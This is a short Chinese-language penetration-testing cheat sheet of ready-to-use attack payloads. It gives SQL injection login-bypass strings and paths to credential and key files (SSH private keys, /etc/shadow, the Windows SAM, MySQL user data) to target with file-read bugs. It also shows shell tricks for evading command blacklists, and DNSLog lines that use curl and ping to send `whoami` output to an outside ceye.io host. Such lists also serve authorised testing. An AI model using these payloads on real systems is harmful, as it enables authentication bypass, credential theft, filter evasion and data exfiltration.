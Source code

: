# 漏洞利用技巧速查

## 万能密码

```
' or 1='1
'or'='or'
'or 1=1/*
1' or '1'='1
admin
admin'--
admin' or 1=1--
admin' or 1=1/*
admin' or '1'='1'--
admin' or 'a'='a
```

## 任意文件下载/读取

### 常见敏感文件路径

#### Windows系统

```
C:\boot.ini	# 查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml	# IIS配置文件
C:\Windows\repair\sam	# 系统初次安装密码
C:\Program Files\mysql\my.ini	# MySQL系统配置
C:\Program Files\mysql\data\mysql\user.MYD	# MySQL用户密码
C:\Windows\php.ini	# php配置文件
C:\Windows\win.ini	# Windows配置文件
```

#### Linux系统

```
/root/.ssh/authorized_keys	# 公钥文件
/root/.ssh/id_rsa	# 私钥文件
/root/.ssh/known_hosts	# 每个访问计算机用户的公钥
/etc/passwd	# 用户信息
/etc/shadow	# 用户密码信息
/etc/my.conf	# MySQL配置文件
/etc/httpd/conf/httpd.conf	# Apache配置文件
/root/.bash_history	# 历史命令
/root/.mysql_history	# MySQL历史命令
/var/lib/mlocate/mlocate.db	# 全文件路径
/usr/local/app/apache2/conf/httpd.conf	# P、Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf	# 虚拟网站设置
/usr/local/app/php7/lib/php.ini	# php配置文件
/etc/php5/apache2/php.ini	# Ubuntu默认php配置文件路径
```

## 黑名单关键字绕过

### 字符串拼接绕过

```
a=c;b=at;c=tex;d=t;$a$b ${c}${d}
```

### 环境变量绕过

```
echo ${SHELLOPTS} 
echo ${SHELLOPTS:3:1} 
${SHELLOPTS:3:1}at${IFS}text
```

### 空变量绕过

```
cat t${x}ext
```

### 通配符绕过

```
/bin/ca? tex? 
```

## DnsLog

### Command Execution

#### Linux

```
curl http://ip.port.<your_identifier>.ceye.io/`whoami`
ping `whoami`.ip.port.<your_identifier>.ceye.io
```

#### Windows

```
ping %USERNAME%.<your_identifier>.ceye.io
```

